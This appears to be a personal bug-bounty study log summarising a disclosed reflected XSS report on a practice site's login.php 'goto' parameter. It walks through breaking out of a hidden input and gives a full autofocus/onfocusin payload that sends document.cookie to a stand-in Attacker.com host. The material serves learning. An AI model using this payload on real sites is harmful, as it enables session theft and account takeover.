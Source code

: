 ![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

Date - 13/12/2021


- [x] #solve tryhackme room ✅
	- - answer 1 question. 😒 

- [x] #read zseano print book
- [x] #read firstblood1/2 Disclosed report ✅
	- https://www.bugbountyhunter.com/hackevents/report?id=465 | 9:00AM - 10:35AM | (Reflected XSS on /login.php through the "goto" parameter leading to ATO)-(holybugx)-(quality report) 👌🏻

			GET /login.php?goto=holy
				\_reflected-value on source code
					\_<input name="goto" value="holy" type="hidden">


			GET /login.php?goto=holy<"'>
				\_reflected-value on source code
					\_<input name="goto" value="holy<"'>  --> input tag is closed
						" type="hidden">


			My thought we can also do like this:
			------------------------------------
			holy<"'>  -> holy"<' > (i dont know it can't be)


			autofocus meanings:
			-------------------
			The autofocus attribute is a boolean attribute.
			When present, it specifies that the element should automatically get focus when the page loads.


			onfocusin:
			----------
			Execute a JavaScript when an input field is about to get focus.


			Payload:
			-------
			https://firstbloodhackers.com/login.php?goto=xyz%22%20autofocus%20onfocusin=%22window.location.href=`http://Attacker.com/?${document.cookie}`%22%3E


			Ultimate Payload:
			-----------------
			XSS payload are awesome.

			when the value is reflected in source-code and using "autofocus" the input field automatically get in focus 
			and "onfocusin" listening for any upcoming focus then he execute the JavaScript and BOOM.  


			<input name="goto" value="xyz" autofocus onfocusin="window.location.href=`http://Attacker.com/?${document.cookie}`">

		- https://www.bugbountyhunter.com/hackevents/report?id=479 ( Reflected XSS on /login.php using "goto" parameter and javascript scheme)-(sceniro changed exploit "goto" parameter using "javascript Schema")-(holybugx)-(quality report) 👌🏻
		